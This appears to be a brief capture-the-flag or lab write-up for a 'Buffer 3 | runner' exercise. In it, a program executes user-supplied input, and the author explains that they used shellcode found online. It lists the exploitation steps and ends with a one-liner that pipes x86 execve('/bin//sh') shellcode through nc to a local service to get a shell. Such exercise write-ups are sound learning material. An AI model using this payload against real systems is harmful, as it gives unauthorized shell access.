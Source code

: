 ref: 2 | Buffer 3 | runner
===========================

General overview of problems faced
-------------------------------------
- Learned to write asm code to spawn a Shell. Realised I can use Shellcode found online which is way smaller than what I could ever write... Therefore I used that one.

List of vulnerabilities
--------------------
1. The user can input Shellcode as input and the program will attempt to execute the buffer which will run the Shellcode if the buffer contains Shellcode.

Steps to exploit
------------------
1. Write or find shellcode
2. Enter the shellcode into the program and it will automatically be executed.
3. You now have a shell!

Script/Command used
------------------
```
(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")'; cat ) | nc localhost 5003
```
